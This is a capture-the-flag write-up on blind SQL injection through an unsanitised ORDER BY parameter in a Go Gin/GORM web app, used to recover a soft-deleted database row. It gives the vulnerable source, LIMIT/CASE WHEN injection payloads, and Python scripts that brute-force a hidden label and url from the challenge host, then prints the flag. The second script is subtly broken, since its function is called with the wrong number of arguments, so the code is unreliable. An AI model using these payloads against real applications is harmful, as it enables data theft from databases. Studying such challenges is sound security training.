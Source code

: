 ## Introduction

![](images/image.png)

Another website, another pictures list, this time it is an album cover list. and the description says that an album was deleted by mistake, so we need to find it.
And we get the source code, which is written in Golang.

## Analysis

Analysing the Code

```go
package main

import (
	"fmt"
	"net/http"

	"github.com/gin-gonic/gin"
	"gorm.io/driver/sqlite"
	"gorm.io/gorm"
)

// define a schema for Cover using GORM Library
type Cover struct {
	gorm.Model
	Url   string `json:"url"`
	Label string `json:"label"`
	gorm.DeletedAt // this is a soft delete
}

func main() {
    // connect to an SQLite database
	db, err := gorm.Open(sqlite.Open("covers.db"), &gorm.Config{})
	if err != nil {
		panic("failed to connect database")
	}

	db.AutoMigrate(&Cover{})

    // create a gin router
	r := gin.Default()
	r.LoadHTMLGlob("templates/*.html")


    // an endpoint that's routed to "/"
	r.GET("/", func(c *gin.Context) {

        // get the query parameter "q" from the url
		q := c.DefaultQuery("q", "1")
		var covers []Cover

        // find all the covers, ordered by the query parameter "q"
		db.Order(q).Find(&covers)

        // render the index.html template with the covers
		c.HTML(http.StatusOK, "index.html", gin.H{
			"covers": covers,
		})
	})
	r.Run()
}
```

Two things to note here, the first is that there's a soft delete, which means that the deleted covers are not actually deleted from the database, but they are marked as deleted with the "deleted_at" field name. The second thing is that the only interaction with the database is through the "q" query parameter, which is used to order the covers. So we need to find a way to order the covers by the "deleted_at" field.

## Exploitation

Looking at the task title "Blinding Lights", and seeing that we can control what to put in an order by value, this looks like a Blind SQL Injection. So we need to find a way to order by the "deleted_at" field.

A basic Blind SQL Injection method is by trying to make the database inform me about an information that I want, either time based or error based, os something similar.

Our query to find `select label from covers where deleted_at is not null`.
I aimed to use `Limit` with a function that returns either 1 (true) or 0 (false) to try to test all the testcases.

First step is to find the length of the label, so we can test a testcase with the query `1 limit (select CASE WHEN (select length(label) from covers where deleted_at is not null) == 10 THEN 1 ELSE 0 END)` which returns 1 if the length is 10, and 0 otherwise.

this way makes it easier for me to test, since limiting by 1 will mean there will be an image in the index.html, and limiting by 0 will mean there will be no image in the index.html.

So I wrote a script to test all the testcases:
```python

base_url = "https://blinding-lights.onrender.com/?q="

# generate the payload for the length
def get_length_payload(n):
    return "1 limit (select CASE WHEN (select length(label) from covers where deleted_at is not null) == "+n+" THEN 1 ELSE 0 END)"

def get_length():
    i = 1
    while True:
        url = base_url+get_length_payload(str(i))
        print(url)
        r = requests.get(url)
        # if there's an image, then the length is i (the condition is true)
        if "img" in r.text:
            return i
        print("Testing length: "+str(i))
        i += 1

get_length()

# 8
```

Our lost Album Cover has an 8 characters label. Now we need to find the label itself.
We can bruteforce the label by trying all the characters, and checking if the condition is true or not.

```python

base_url = "https://blinding-lights.onrender.com/?q="
all_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ:=/? ."

def get_payload(target, n, c):
    return "1 limit (select CASE WHEN (select substring(label, "+n+", 1) from covers where deleted_at is not null) == '"+c+"' THEN 1 ELSE 0 END)"

def get_text(l):
    text = ""

    for i in range(l):
        for c in all_chars:
            url = base_url + get_payload(str(i+1), c)
            print(url)
            r = requests.get(url)
            if "img" in r.text:
                text += c
                print("Found char: "+c)
                break

    return text

get_text(8)

# Her Loss
```

So the label is "Her Loss", yet it is not the flag. Although we know that there's a url field alongside the label, so we try to redo the same process. to end up with the value **"t.ly/TIcqC"**

Downloading the image, we get this content:

![](images/cover.png)

## Conclusion

The Golang language was the first thing a player would interfere, and I gotta say this language is rising in popularity, and it is a good language to learn, and how to use it to create a web server with `Gin`. and interacting with Databases with The `GORM` library. Mixing this with a typical Blind SQL Injection Scenario, and The Soft Delete Concept, I hope it was an interesting task.

## Flag
> `ENIT{TH1s_dE1EETe_WASNt_s0ft_4fAll}`